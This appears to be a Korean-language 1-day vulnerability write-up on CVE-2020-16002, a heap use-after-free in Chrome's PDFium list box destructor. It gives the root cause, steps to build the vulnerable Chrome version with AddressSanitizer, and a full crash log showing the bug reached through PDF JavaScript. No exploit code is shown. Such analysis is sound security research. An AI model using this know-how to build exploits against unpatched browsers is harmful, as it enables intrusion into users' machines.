

# CVE-2020-16002

Created: September 30, 2021 12:50 AM
Tags: Pdfium, 심준용
create: Anonymous
docs: 1-day
완료: Yes

# CVE-2020-16002

- Security_Impact: **Stable**
- Security_Severity: **High**
- reward: **7500$**
- Version: **Chrome/86.0.4240.75**
- crbug [[here]](https://bugs.chromium.org/p/chromium/issues/detail?id=1137630&q=label%3Asecurity%20component%3AInternals%3EPlugins%3EPDF&can=1&colspec=ID%20Pri%20Type%20Component%20Status%20Summary%20Owner%20Target%20M%20Reporter%20Modified%20Opened%20CVE%20Reward)

# Summary


- PDFium `CPWL_ListBox::~CPWL_ListBox()` 에서 heap-use-after-free
- `CPWL_ListBox` 에서 한 member의 destructor logic에서 다른 member에 대한 참조가 필요한 데, destructor 호출 전에 해당 member가 delete되어 발생한 버그

# Background


- PDF 구조에 대한 이해 [[Link]](https://www.notion.so/PDF-bea34a1c4a644f64af57973ab754581d)

# Reproduce


- Environment: Ubuntu 20.04
- crash reproduce를 위해서 chromium version downgrade build가 필요하다.
- 참고 사이트 [[here]](https://blog.daum.net/gore123/162)

depot_tools clone

`git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git`

depot_tools directory 경로를 환경변수 PATH에 추가

`export PATH="$PATH:<PATH>"`

ex.) `export PATH="$PATH:/home/cwrong/Desktop/depot_tools"`

chromium source code를 받을 directory 생성 및 이동

`mkdir ~/chromium && cd ~/chromium`

code fetch

`fetch --nohooks chromium`

cf) 아래와 같은 error가 뜰 경우 RAM을 확인하자. (최소 8GB 이상이어야 한다)



src directory로 이동

`cd src`

checkout을 통해 version downgrade

`git checkout -b branch_work <version>`

ex.) `git checkout -b branch_work 86.0.4240.75`

`gclient sync -D`

빌드 전에 dependency 확인

`./build/install-build-deps.sh`

source code를 gen

`gn gen out/Default`

build option 지정

`gn args out/Default`

나타나는 vim 편집기에 다음을 입력

```
is_asan = true
is_debug = false
dcheck_always_on = true
target_cpu = "x64"
use_libfuzzer = true
```

ninja로 build

`ninja -C out/Default chrome`

cf) 라이브러리가 없다고 하여 libtinfo5를 설치해주었다.

`sudo apt install libtinfo5`

chrome 실행 및 출력된 로그를 asan_symbolizer.py로 넘김

`<chrome> <poc> 2>&1 | <asan_symbolizer.py>`

ex.) `./out/First/chrome ./out/poc.pdf 2>&1 | ./tools/valgrind/asan/asan_symbolize.py`

- 얻어진 Asan log
    
    [poc_asan.txt](img/poc_asan.txt)
    
    ```
    =================================================================
    ==1==ERROR: AddressSanitizer: heap-use-after-free on address 0x60200007d590 at pc 0x556a122ef224 bp 0x7fff8d8c2d20 sp 0x7fff8d8c2d18
    READ of size 8 at 0x60200007d590 thread T0 (chrome)
    error: unknown argument '--use-symbol-table=true'
    error: unknown argument '--demangle=True'
        #0 0x556a122ef223 in CPWL_List_Notify::IOnInvalidateRect(CFX_FloatRect*) ./../../third_party/pdfium/core/fxcrt/unowned_ptr.h:106
        #1 0x556a122ef223 in IOnInvalidateRect ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_list_box.cpp:64
        #2 0x556a122ef223 in ?? ??:0
        #3 0x556a122f355c in CPWL_ListCtrl::Clear() ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_list_impl.cpp:358
        #4 0x556a122f355c in Clear ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_list_impl.cpp:520
        #5 0x556a122f355c in ?? ??:0
        #6 0x556a122f2f63 in CPWL_ListCtrl::~CPWL_ListCtrl() ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_list_impl.cpp:101
        #7 0x556a122f2f63 in ?? ??:0
        #8 0x556a122ef6c7 in CPWL_ListBox::~CPWL_ListBox() ./../../buildtools/third_party/libc++/trunk/include/memory:2378
        #9 0x556a122ef6c7 in reset ./../../buildtools/third_party/libc++/trunk/include/memory:2633
        #10 0x556a122ef6c7 in ~unique_ptr ./../../buildtools/third_party/libc++/trunk/include/memory:2587
        #11 0x556a122ef6c7 in ~CPWL_ListBox ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_list_box.cpp:73
        #12 0x556a122ef6c7 in ?? ??:0
        #13 0x556a122b5938 in CPWL_CBListBox::~CPWL_CBListBox() ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_combo_box.cpp:36
        #14 0x556a122b5938 in ~CPWL_CBListBox ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_combo_box.cpp:36
        #15 0x556a122b5938 in ?? ??:0
        #16 0x556a1230ecef in CPWL_Wnd::~CPWL_Wnd() ./../../buildtools/third_party/libc++/trunk/include/memory:2378
        #17 0x556a1230ecef in reset ./../../buildtools/third_party/libc++/trunk/include/memory:2633
        #18 0x556a1230ecef in ~unique_ptr ./../../buildtools/third_party/libc++/trunk/include/memory:2587
        #19 0x556a1230ecef in destroy ./../../buildtools/third_party/libc++/trunk/include/memory:1920
        #20 0x556a1230ecef in __destroy<std::__1::unique_ptr<CPWL_Wnd, std::__1::default_delete<CPWL_Wnd> > > ./../../buildtools/third_party/libc++/trunk/include/memory:1782
        #21 0x556a1230ecef in destroy<std::__1::unique_ptr<CPWL_Wnd, std::__1::default_delete<CPWL_Wnd> > > ./../../buildtools/third_party/libc++/trunk/include/memory:1619
        #22 0x556a1230ecef in __destruct_at_end ./../../buildtools/third_party/libc++/trunk/include/vector:426
        #23 0x556a1230ecef in clear ./../../buildtools/third_party/libc++/trunk/include/vector:369
        #24 0x556a1230ecef in ~__vector_base ./../../buildtools/third_party/libc++/trunk/include/vector:463
        #25 0x556a1230ecef in ~vector ./../../buildtools/third_party/libc++/trunk/include/vector:555
        #26 0x556a1230ecef in ~CPWL_Wnd ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_wnd.cpp:123
        #27 0x556a1230ecef in ?? ??:0
        #28 0x556a122b6e94 in CPWL_ComboBox::~CPWL_ComboBox() ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_combo_box.cpp:172
        #29 0x556a122b6e94 in ~CPWL_ComboBox ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_combo_box.cpp:172
        #30 0x556a122b6e94 in ?? ??:0
        #31 0x556a1229bdac in CFFL_FormFiller::GetPWLWindow(CPDFSDK_PageView*, bool) ./../../buildtools/third_party/libc++/trunk/include/memory:2378
        #32 0x556a1229bdac in reset ./../../buildtools/third_party/libc++/trunk/include/memory:2633
        #33 0x556a1229bdac in operator= ./../../buildtools/third_party/libc++/trunk/include/memory:2552
        #34 0x556a1229bdac in GetPWLWindow ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_formfiller.cpp:358
        #35 0x556a1229bdac in ?? ??:0
        #36 0x556a122a0991 in CFFL_FormFiller::SetFocusForAnnot(CPDFSDK_Annot*, unsigned int) ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_formfiller.cpp:260
        #37 0x556a122a0991 in ?? ??:0
        #38 0x556a122a899e in CFFL_InteractiveFormFiller::OnSetFocus(fxcrt::ObservedPtr<CPDFSDK_Annot>*, unsigned int) ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_interactiveformfiller.cpp:401
        #39 0x556a122a899e in ?? ??:0
        #40 0x556a120d4889 in CPDFSDK_FormFillEnvironment::SetFocusAnnot(fxcrt::ObservedPtr<CPDFSDK_Annot>*) ./../../third_party/pdfium/fpdfsdk/cpdfsdk_formfillenvironment.cpp:708
        #41 0x556a120d4889 in ?? ??:0
        #42 0x556a1221d5c8 in CJS_Field::setFocus(CJS_Runtime*, std::__1::vector<v8::Local<v8::Value>, std::__1::allocator<v8::Local<v8::Value> > > const&) ./../../third_party/pdfium/fxjs/cjs_field.cpp:2526
        #43 0x556a1221d5c8 in ?? ??:0
        #44 0x556a1223ecca in void JSMethod<CJS_Field, &CJS_Field::setFocus>(char const*, char const*, v8::FunctionCallbackInfo<v8::Value> const&) ./../../third_party/pdfium/fxjs/js_define.h:128
        #45 0x556a1223ecca in ?? ??:0
        #46 0x556a0d1b7247 in v8::internal::FunctionCallbackArguments::Call(v8::internal::CallHandlerInfo) ./../../v8/src/api/api-arguments-inl.h:158
        #47 0x556a0d1b7247 in ?? ??:0
        #48 0x556a0d1b2f13 in v8::internal::MaybeHandle<v8::internal::Object> v8::internal::(anonymous namespace)::HandleApiCallHelper<false>(v8::internal::Isolate*, v8::internal::Handle<v8::internal::HeapObject>, v8::internal::Handle<v8::internal::HeapObject>, v8::internal::Handle<v8::internal::FunctionTemplateInfo>, v8::internal::Handle<v8::internal::Object>, v8::internal::BuiltinArguments) ./../../v8/src/builtins/builtins-api.cc:111
        #49 0x556a0d1b2f13 in ?? ??:0
        #50 0x556a0d1ae2ce in v8::internal::Builtin_Impl_HandleApiCall(v8::internal::BuiltinArguments, v8::internal::Isolate*) ./../../v8/src/builtins/builtins-api.cc:141
        #51 0x556a0d1ae2ce in ?? ??:0
        #52 0x556a0d1ad049 in v8::internal::Builtin_HandleApiCall(int, unsigned long*, v8::internal::Isolate*) ./../../v8/src/builtins/builtins-api.cc:129
        #53 0x556a0d1ad049 in ?? ??:0
        #54 0x556a10671b3e in Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_BuiltinExit setup-isolate-deserialize.cc:?
        #55 0x556a10671b3e in ?? ??:0
        #56 0x556a1041f9f4 in Builtins_InterpreterEntryTrampoline setup-isolate-deserialize.cc:?
        #57 0x556a1041f9f4 in ?? ??:0
        #58 0x556a10415e39 in Builtins_JSEntryTrampoline setup-isolate-deserialize.cc:?
        #59 0x556a10415e39 in ?? ??:0
        #60 0x556a10415c17 in Builtins_JSEntry setup-isolate-deserialize.cc:?
        #61 0x556a10415c17 in ?? ??:0
        #62 0x556a0d5e3f51 in v8::internal::(anonymous namespace)::Invoke(v8::internal::Isolate*, v8::internal::(anonymous namespace)::InvokeParams const&) ./../../v8/src/execution/simulator.h:142
        #63 0x556a0d5e3f51 in Invoke ./../../v8/src/execution/execution.cc:368
        #64 0x556a0d5e3f51 in ?? ??:0
        #65 0x556a0d5e0add in v8::internal::Execution::Call(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Object>, v8::internal::Handle<v8::internal::Object>, int, v8::internal::Handle<v8::internal::Object>*) ./../../v8/src/execution/execution.cc:462
        #66 0x556a0d5e0add in ?? ??:0
        #67 0x556a0cef077d in v8::Script::Run(v8::Local<v8::Context>) ./../../v8/src/api/api.cc:2131
        #68 0x556a0cef077d in ?? ??:0
        #69 0x556a121808fe in CFXJS_Engine::Execute(fxcrt::WideString const&) ./../../third_party/pdfium/fxjs/cfxjs_engine.cpp:561
        #70 0x556a121808fe in ?? ??:0
        #71 0x556a1227965c in CJS_Runtime::ExecuteScript(fxcrt::WideString const&) ./../../third_party/pdfium/fxjs/cjs_runtime.cpp:166
        #72 0x556a1227965c in ?? ??:0
        #73 0x556a121fb256 in CJS_EventContext::RunScript(fxcrt::WideString const&) ./../../third_party/pdfium/fxjs/cjs_event_context.cpp:53
        #74 0x556a121fb256 in ?? ??:0
        #75 0x556a120875d4 in CPDFSDK_ActionHandler::RunDocumentPageJavaScript(CPDFSDK_FormFillEnvironment*, CPDF_AAction::AActionType, fxcrt::WideString const&) ./../../third_party/pdfium/fpdfsdk/cpdfsdk_actionhandler.cpp:461
        #76 0x556a120875d4 in RunDocumentPageJavaScript ./../../third_party/pdfium/fpdfsdk/cpdfsdk_actionhandler.cpp:394
        #77 0x556a120875d4 in ?? ??:0
        #78 0x556a1208607e in CPDFSDK_ActionHandler::ExecuteDocumentPageAction(CPDF_Action const&, CPDF_AAction::AActionType, CPDFSDK_FormFillEnvironment*, std::__1::set<CPDF_Dictionary const*, std::__1::less<CPDF_Dictionary const*>, std::__1::allocator<CPDF_Dictionary const*> >*) ./../../third_party/pdfium/fpdfsdk/cpdfsdk_actionhandler.cpp:180
        #79 0x556a1208607e in ?? ??:0
        #80 0x556a12085acc in CPDFSDK_ActionHandler::DoAction_Page(CPDF_Action const&, CPDF_AAction::AActionType, CPDFSDK_FormFillEnvironment*) ./../../third_party/pdfium/fpdfsdk/cpdfsdk_actionhandler.cpp:111
        #81 0x556a12085acc in ?? ??:0
        #82 0x556a1210c0f9 in FORM_DoPageAAction ./../../third_party/pdfium/fpdfsdk/fpdf_formfill.cpp:807
        #83 0x556a1210c0f9 in ?? ??:0
        #84 0x556a119faf9b in chrome_pdf::PDFiumEngine::SetCurrentPage(int) ./../../pdf/pdfium/pdfium_engine.cc:3536
        #85 0x556a119faf9b in ?? ??:0
        #86 0x556a119b9a94 in chrome_pdf::PDFiumEngine::CalculateVisiblePages() ./../../pdf/pdfium/pdfium_engine.cc:2904
        #87 0x556a119b9a94 in ?? ??:0
        #88 0x556a119bad44 in chrome_pdf::PDFiumEngine::ScrolledToYPosition(int) ./../../pdf/pdfium/pdfium_engine.cc:537
        #89 0x556a119bad44 in ?? ??:0
        #90 0x556a1233f444 in chrome_pdf::OutOfProcessInstance::UpdateScroll() ./../../pdf/out_of_process_instance.cc:740
        #91 0x556a1233f444 in ?? ??:0
        #92 0x556a1233db18 in chrome_pdf::OutOfProcessInstance::DidChangeView(pp::View const&) ./../../pdf/out_of_process_instance.cc:724
        #93 0x556a1233db18 in ?? ??:0
        #94 0x556a112ef709 in pp::Instance_DidChangeView(int, int) ./../../ppapi/cpp/module.cc:100
        #95 0x556a112ef709 in ?? ??:0
        #96 0x556a2a2fb229 in ppapi::PPP_Instance_Combined::DidChangeView(int, int, PP_Rect const*, PP_Rect const*) ./../../ppapi/shared_impl/proxy_lock.h:135
        #97 0x556a2a2fb229 in DidChangeView ./../../ppapi/shared_impl/ppp_instance_combined.cc:61
        #98 0x556a2a2fb229 in ?? ??:0
        #99 0x556a2a2f86cf in ppapi::proxy::PPP_Instance_Proxy::OnPluginMsgDidChangeView(int, ppapi::ViewData const&, PP_Bool) ./../../ppapi/proxy/ppp_instance_proxy.cc:226
        #100 0x556a2a2f86cf in ?? ??:0
        #101 0x556a2a2f80c2 in bool IPC::MessageT<PpapiMsg_PPPInstance_DidChangeView_Meta, std::__1::tuple<int, ppapi::ViewData, PP_Bool>, void>::Dispatch<ppapi::proxy::PPP_Instance_Proxy, ppapi::proxy::PPP_Instance_Proxy, void, void (ppapi::proxy::PPP_Instance_Proxy::*)(int, ppapi::ViewData const&, PP_Bool)>(IPC::Message const*, ppapi::proxy::PPP_Instance_Proxy*, ppapi::proxy::PPP_Instance_Proxy*, void*, void (ppapi::proxy::PPP_Instance_Proxy::*)(int, ppapi::ViewData const&, PP_Bool)) ./../../base/tuple.h:52
        #102 0x556a2a2f80c2 in DispatchToMethod<ppapi::proxy::PPP_Instance_Proxy *, void (ppapi::proxy::PPP_Instance_Proxy::*)(int, const ppapi::ViewData &, PP_Bool), std::__1::tuple<int, ppapi::ViewData, PP_Bool> > ./../../base/tuple.h:60
        #103 0x556a2a2f80c2 in DispatchToMethod<ppapi::proxy::PPP_Instance_Proxy, void (ppapi::proxy::PPP_Instance_Proxy::*)(int, const ppapi::ViewData &, PP_Bool), void, std::__1::tuple<int, ppapi::ViewData, PP_Bool> > ./../../ipc/ipc_message_templates.h:52
        #104 0x556a2a2f80c2 in Dispatch<ppapi::proxy::PPP_Instance_Proxy, ppapi::proxy::PPP_Instance_Proxy, void, void (ppapi::proxy::PPP_Instance_Proxy::*)(int, const ppapi::ViewData &, PP_Bool)> ./../../ipc/ipc_message_templates.h:140
        #105 0x556a2a2f80c2 in ?? ??:0
        #106 0x556a2a2f5ace in ppapi::proxy::PPP_Instance_Proxy::OnMessageReceived(IPC::Message const&) ./../../ppapi/proxy/ppp_instance_proxy.cc:148
        #107 0x556a2a2f5ace in ?? ??:0
        #108 0x556a2a210430 in ppapi::proxy::Dispatcher::OnMessageReceived(IPC::Message const&) ./../../ppapi/proxy/dispatcher.cc:71
        #109 0x556a2a210430 in ?? ??:0
        #110 0x556a2a24a6e2 in ppapi::proxy::PluginDispatcher::OnMessageReceived(IPC::Message const&) ./../../ppapi/proxy/plugin_dispatcher.cc:274
        #111 0x556a2a24a6e2 in ?? ??:0
        #112 0x556a172486d4 in IPC::ChannelProxy::Context::OnDispatchMessage(IPC::Message const&) ./../../ipc/ipc_channel_proxy.cc:327
        #113 0x556a172486d4 in ?? ??:0
        #114 0x556a17250d68 in base::internal::Invoker<base::internal::BindState<void (IPC::ChannelProxy::Context::*)(IPC::Message const&), scoped_refptr<IPC::ChannelProxy::Context>, IPC::Message>, void ()>::RunOnce(base::internal::BindStateBase*) ./../../base/bind_internal.h:498
        #115 0x556a17250d68 in MakeItSo<void (IPC::ChannelProxy::Context::*)(const IPC::Message &), scoped_refptr<IPC::ChannelProxy::Context>, IPC::Message> ./../../base/bind_internal.h:637
        #116 0x556a17250d68 in RunImpl<void (IPC::ChannelProxy::Context::*)(const IPC::Message &), std::__1::tuple<scoped_refptr<IPC::ChannelProxy::Context>, IPC::Message>, 0, 1> ./../../base/bind_internal.h:710
        #117 0x556a17250d68 in RunOnce ./../../base/bind_internal.h:679
        #118 0x556a17250d68 in ?? ??:0
        #119 0x556a13f635f8 in base::TaskAnnotator::RunTask(char const*, base::PendingTask*) ./../../base/callback.h:99
        #120 0x556a13f635f8 in RunTask ./../../base/task/common/task_annotator.cc:142
        #121 0x556a13f635f8 in ?? ??:0
        #122 0x556a13fccf80 in base::sequence_manager::internal::ThreadControllerWithMessagePumpImpl::DoWorkImpl(base::sequence_manager::LazyNow*) ./../../base/task/sequence_manager/thread_controller_with_message_pump_impl.cc:332
        #123 0x556a13fccf80 in ?? ??:0
        #124 0x556a13fcc459 in base::sequence_manager::internal::ThreadControllerWithMessagePumpImpl::DoWork() ./../../base/task/sequence_manager/thread_controller_with_message_pump_impl.cc:252
        #125 0x556a13fcc459 in ?? ??:0
        #126 0x556a13e0ebc3 in base::MessagePumpDefault::Run(base::MessagePump::Delegate*) ./../../base/message_loop/message_pump_default.cc:39
        #127 0x556a13e0ebc3 in ?? ??:0
        #128 0x556a13fcebbb in base::sequence_manager::internal::ThreadControllerWithMessagePumpImpl::Run(bool, base::TimeDelta) ./../../base/task/sequence_manager/thread_controller_with_message_pump_impl.cc:446
        #129 0x556a13fcebbb in ?? ??:0
        #130 0x556a13ed97f5 in base::RunLoop::Run() ./../../base/run_loop.cc:124
        #131 0x556a13ed97f5 in ?? ??:0
        #132 0x556a1122f2cd in content::PpapiPluginMain(content::MainFunctionParams const&) ./../../content/ppapi_plugin/ppapi_plugin_main.cc:165
        #133 0x556a1122f2cd in ?? ??:0
        #134 0x556a1236de9c in content::RunZygote(content::ContentMainDelegate*) ./../../content/app/content_main_runner_impl.cc:503
        #135 0x556a1236de9c in ?? ??:0
        #136 0x556a123731fd in content::ContentMainRunnerImpl::Run(bool) ./../../content/app/content_main_runner_impl.cc:883
        #137 0x556a123731fd in ?? ??:0
        #138 0x556a1255a561 in service_manager::Main(service_manager::MainParams const&) ./../../services/service_manager/embedder/main.cc:453
        #139 0x556a1255a561 in ?? ??:0
        #140 0x556a1236b33b in content::ContentMain(content::ContentMainParams const&) ./../../content/app/content_main.cc:19
        #141 0x556a1236b33b in ?? ??:0
        #142 0x556a025ec408 in ChromeMain ./../../chrome/app/chrome_main.cc:119
        #143 0x556a025ec408 in ?? ??:0
    error: unknown argument '--use-symbol-table=true'
    error: unknown argument '--demangle=True'
        #144 0x7f438f0f10b2 in __libc_start_main ??:?
        #145 0x7f438f0f10b2 in ?? ??:0
    
    0x60200007d590 is located 0 bytes inside of 8-byte region [0x60200007d590,0x60200007d598)
    freed by thread T0 (chrome) here:
        #0 0x556a025ea0ed in operator delete(void*) /b/s/w/ir/cache/builder/src/third_party/llvm/compiler-rt/lib/asan/asan_new_delete.cpp:160
        #1 0x556a025ea0ed in ?? ??:0
        #2 0x556a122ef68e in CPWL_ListBox::~CPWL_ListBox() ./../../buildtools/third_party/libc++/trunk/include/memory:2378
        #3 0x556a122ef68e in reset ./../../buildtools/third_party/libc++/trunk/include/memory:2633
        #4 0x556a122ef68e in ~unique_ptr ./../../buildtools/third_party/libc++/trunk/include/memory:2587
        #5 0x556a122ef68e in ~CPWL_ListBox ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_list_box.cpp:73
        #6 0x556a122ef68e in ?? ??:0
        #7 0x556a122b5938 in ~CPWL_CBListBox ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_combo_box.cpp:36
        #8 0x556a122b5938 in ~CPWL_CBListBox ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_combo_box.cpp:36
        #9 0x556a122b5938 in ?? ??:0
        #10 0x556a1230ecef in operator() ./../../buildtools/third_party/libc++/trunk/include/memory:2378
        #11 0x556a1230ecef in reset ./../../buildtools/third_party/libc++/trunk/include/memory:2633
        #12 0x556a1230ecef in ~unique_ptr ./../../buildtools/third_party/libc++/trunk/include/memory:2587
        #13 0x556a1230ecef in destroy ./../../buildtools/third_party/libc++/trunk/include/memory:1920
        #14 0x556a1230ecef in __destroy<std::__1::unique_ptr<CPWL_Wnd, std::__1::default_delete<CPWL_Wnd> > > ./../../buildtools/third_party/libc++/trunk/include/memory:1782
        #15 0x556a1230ecef in destroy<std::__1::unique_ptr<CPWL_Wnd, std::__1::default_delete<CPWL_Wnd> > > ./../../buildtools/third_party/libc++/trunk/include/memory:1619
        #16 0x556a1230ecef in __destruct_at_end ./../../buildtools/third_party/libc++/trunk/include/vector:426
        #17 0x556a1230ecef in clear ./../../buildtools/third_party/libc++/trunk/include/vector:369
        #18 0x556a1230ecef in ~__vector_base ./../../buildtools/third_party/libc++/trunk/include/vector:463
        #19 0x556a1230ecef in ~vector ./../../buildtools/third_party/libc++/trunk/include/vector:555
        #20 0x556a1230ecef in ~CPWL_Wnd ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_wnd.cpp:123
        #21 0x556a1230ecef in ?? ??:0
        #22 0x556a122b6e94 in ~CPWL_ComboBox ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_combo_box.cpp:172
        #23 0x556a122b6e94 in ~CPWL_ComboBox ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_combo_box.cpp:172
        #24 0x556a122b6e94 in ?? ??:0
        #25 0x556a1229bdac in operator() ./../../buildtools/third_party/libc++/trunk/include/memory:2378
        #26 0x556a1229bdac in reset ./../../buildtools/third_party/libc++/trunk/include/memory:2633
        #27 0x556a1229bdac in operator= ./../../buildtools/third_party/libc++/trunk/include/memory:2552
        #28 0x556a1229bdac in GetPWLWindow ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_formfiller.cpp:358
        #29 0x556a1229bdac in ?? ??:0
        #30 0x556a122a0991 in CFFL_FormFiller::SetFocusForAnnot(CPDFSDK_Annot*, unsigned int) ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_formfiller.cpp:260
        #31 0x556a122a0991 in ?? ??:0
        #32 0x556a122a899e in CFFL_InteractiveFormFiller::OnSetFocus(fxcrt::ObservedPtr<CPDFSDK_Annot>*, unsigned int) ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_interactiveformfiller.cpp:401
        #33 0x556a122a899e in ?? ??:0
        #34 0x556a120d4889 in CPDFSDK_FormFillEnvironment::SetFocusAnnot(fxcrt::ObservedPtr<CPDFSDK_Annot>*) ./../../third_party/pdfium/fpdfsdk/cpdfsdk_formfillenvironment.cpp:708
        #35 0x556a120d4889 in ?? ??:0
        #36 0x556a1221d5c8 in CJS_Field::setFocus(CJS_Runtime*, std::__1::vector<v8::Local<v8::Value>, std::__1::allocator<v8::Local<v8::Value> > > const&) ./../../third_party/pdfium/fxjs/cjs_field.cpp:2526
        #37 0x556a1221d5c8 in ?? ??:0
        #38 0x556a1223ecca in void JSMethod<CJS_Field, &CJS_Field::setFocus>(char const*, char const*, v8::FunctionCallbackInfo<v8::Value> const&) ./../../third_party/pdfium/fxjs/js_define.h:128
        #39 0x556a1223ecca in ?? ??:0
        #40 0x556a0d1b7247 in v8::internal::FunctionCallbackArguments::Call(v8::internal::CallHandlerInfo) ./../../v8/src/api/api-arguments-inl.h:158
        #41 0x556a0d1b7247 in ?? ??:0
        #42 0x556a0d1b2f13 in v8::internal::MaybeHandle<v8::internal::Object> v8::internal::(anonymous namespace)::HandleApiCallHelper<false>(v8::internal::Isolate*, v8::internal::Handle<v8::internal::HeapObject>, v8::internal::Handle<v8::internal::HeapObject>, v8::internal::Handle<v8::internal::FunctionTemplateInfo>, v8::internal::Handle<v8::internal::Object>, v8::internal::BuiltinArguments) ./../../v8/src/builtins/builtins-api.cc:111
        #43 0x556a0d1b2f13 in ?? ??:0
        #44 0x556a0d1ae2ce in v8::internal::Builtin_Impl_HandleApiCall(v8::internal::BuiltinArguments, v8::internal::Isolate*) ./../../v8/src/builtins/builtins-api.cc:141
        #45 0x556a0d1ae2ce in ?? ??:0
        #46 0x556a0d1ad049 in v8::internal::Builtin_HandleApiCall(int, unsigned long*, v8::internal::Isolate*) ./../../v8/src/builtins/builtins-api.cc:129
        #47 0x556a0d1ad049 in ?? ??:0
        #48 0x556a10671b3e in Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_BuiltinExit setup-isolate-deserialize.cc:?
        #49 0x556a10671b3e in ?? ??:0
        #50 0x556a1041f9f4 in Builtins_InterpreterEntryTrampoline setup-isolate-deserialize.cc:?
        #51 0x556a1041f9f4 in ?? ??:0
        #52 0x556a10415e39 in Builtins_JSEntryTrampoline setup-isolate-deserialize.cc:?
        #53 0x556a10415e39 in ?? ??:0
        #54 0x556a10415c17 in Builtins_JSEntry setup-isolate-deserialize.cc:?
        #55 0x556a10415c17 in ?? ??:0
        #56 0x556a0d5e3f51 in Call ./../../v8/src/execution/simulator.h:142
        #57 0x556a0d5e3f51 in Invoke ./../../v8/src/execution/execution.cc:368
        #58 0x556a0d5e3f51 in ?? ??:0
        #59 0x556a0d5e0add in v8::internal::Execution::Call(v8::internal::Isolate*, v8::internal::Handle<v8::internal::Object>, v8::internal::Handle<v8::internal::Object>, int, v8::internal::Handle<v8::internal::Object>*) ./../../v8/src/execution/execution.cc:462
        #60 0x556a0d5e0add in ?? ??:0
        #61 0x556a0cef077d in v8::Script::Run(v8::Local<v8::Context>) ./../../v8/src/api/api.cc:2131
        #62 0x556a0cef077d in ?? ??:0
        #63 0x556a121808fe in CFXJS_Engine::Execute(fxcrt::WideString const&) ./../../third_party/pdfium/fxjs/cfxjs_engine.cpp:561
        #64 0x556a121808fe in ?? ??:0
        #65 0x556a1227965c in CJS_Runtime::ExecuteScript(fxcrt::WideString const&) ./../../third_party/pdfium/fxjs/cjs_runtime.cpp:166
        #66 0x556a1227965c in ?? ??:0
        #67 0x556a121fb256 in CJS_EventContext::RunScript(fxcrt::WideString const&) ./../../third_party/pdfium/fxjs/cjs_event_context.cpp:53
        #68 0x556a121fb256 in ?? ??:0
        #69 0x556a120875d4 in RunScript ./../../third_party/pdfium/fpdfsdk/cpdfsdk_actionhandler.cpp:461
        #70 0x556a120875d4 in RunDocumentPageJavaScript ./../../third_party/pdfium/fpdfsdk/cpdfsdk_actionhandler.cpp:394
        #71 0x556a120875d4 in ?? ??:0
        #72 0x556a1208607e in CPDFSDK_ActionHandler::ExecuteDocumentPageAction(CPDF_Action const&, CPDF_AAction::AActionType, CPDFSDK_FormFillEnvironment*, std::__1::set<CPDF_Dictionary const*, std::__1::less<CPDF_Dictionary const*>, std::__1::allocator<CPDF_Dictionary const*> >*) ./../../third_party/pdfium/fpdfsdk/cpdfsdk_actionhandler.cpp:180
        #73 0x556a1208607e in ?? ??:0
        #74 0x556a12085acc in CPDFSDK_ActionHandler::DoAction_Page(CPDF_Action const&, CPDF_AAction::AActionType, CPDFSDK_FormFillEnvironment*) ./../../third_party/pdfium/fpdfsdk/cpdfsdk_actionhandler.cpp:111
        #75 0x556a12085acc in ?? ??:0
        #76 0x556a1210c0f9 in FORM_DoPageAAction ./../../third_party/pdfium/fpdfsdk/fpdf_formfill.cpp:807
        #77 0x556a1210c0f9 in ?? ??:0
        #78 0x556a119faf9b in chrome_pdf::PDFiumEngine::SetCurrentPage(int) ./../../pdf/pdfium/pdfium_engine.cc:3536
        #79 0x556a119faf9b in ?? ??:0
    
    previously allocated by thread T0 (chrome) here:
        #0 0x556a025e988d in operator new(unsigned long) /b/s/w/ir/cache/builder/src/third_party/llvm/compiler-rt/lib/asan/asan_new_delete.cpp:99
        #1 0x556a025e988d in ?? ??:0
        #2 0x556a122efa25 in CPWL_ListBox::OnCreated() ./../../buildtools/third_party/libc++/trunk/include/memory:3043
        #3 0x556a122efa25 in OnCreated ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_list_box.cpp:77
        #4 0x556a122efa25 in ?? ??:0
        #5 0x556a1230f578 in CPWL_Wnd::Realize() ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_wnd.cpp:142
        #6 0x556a1230f578 in ?? ??:0
        #7 0x556a122b99aa in CPWL_ComboBox::CreateListBox(CPWL_Wnd::CreateParams const&) ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_combo_box.cpp:346
        #8 0x556a122b99aa in ?? ??:0
        #9 0x556a1230f4f7 in CPWL_Wnd::Realize() ./../../third_party/pdfium/fpdfsdk/pwl/cpwl_wnd.cpp:140
        #10 0x556a1230f4f7 in ?? ??:0
        #11 0x556a122982d1 in CFFL_ComboBox::NewPWLWindow(CPWL_Wnd::CreateParams const&, std::__1::unique_ptr<IPWL_SystemHandler::PerWindowData, std::__1::default_delete<IPWL_SystemHandler::PerWindowData> >) ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_combobox.cpp:47
        #12 0x556a122982d1 in ?? ??:0
        #13 0x556a1229ba49 in CFFL_FormFiller::GetPWLWindow(CPDFSDK_PageView*, bool) ./../../third_party/pdfium/fpdfsdk/formfiller/cffl_formfiller.cpp:358
        #14 0x556a1229ba49 in ?? ??:0
